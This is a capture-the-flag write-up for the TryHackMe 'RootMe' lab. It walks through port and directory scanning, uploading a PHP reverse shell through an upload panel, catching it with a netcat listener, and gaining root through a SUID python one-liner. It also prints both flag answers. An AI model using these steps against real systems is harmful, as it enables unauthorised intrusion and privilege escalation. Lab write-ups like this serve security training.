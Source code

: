 # Rootme 

![](https://tryhackme-images.s3.amazonaws.com/room-icons/11d59cb34397e986062eb515f4d32421.png)

## Scanning

```bash
nmap -T4 -A -p- MACHINE_IP
Nmap scan report for MACHINE_IP
Host is up (0.15s latency).
Not shown: 65464 closed ports, 69 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Dir bruteforce:


```bash
gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/common.txt
===============================================================

/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

## Explotation


* `http://MACHINE_IP/panel/``   has a file upload, i already know what im gonna do.

* Lets listen on our port `nc -lvnp 4444`, lets upload our shell `shell.phtml`

* Get a shell by: `curl http://MACHINE_IP/uploads/shell.phtml` 

* Find our flag - `find | grep "user.txt" 2>/dev/null`

## Privilege Escalation

`find / -user root -perm /4000`

```bash
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
/bin/mount
/bin/su
/bin/fusermount
/bin/ping
/bin/umount
/usr/bin/python  this one looks interesting 
```

* Since, `/usr/bin/python` has the suid bit we can promote our shell to root!

```bash
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

```bash
whoami
root

cd /root
``` 

## Flags

<details>
    <summary>user.txt</summary>

    ```bash
    THM{y0u_g0t_a_sh3l}
    ```

</details>

<details>
    <summary>root.txt</summary>

    ```bash
    THM{pr1v1l3g3_3sc4l4t10n}
    ```

</details>

## Thank You! 
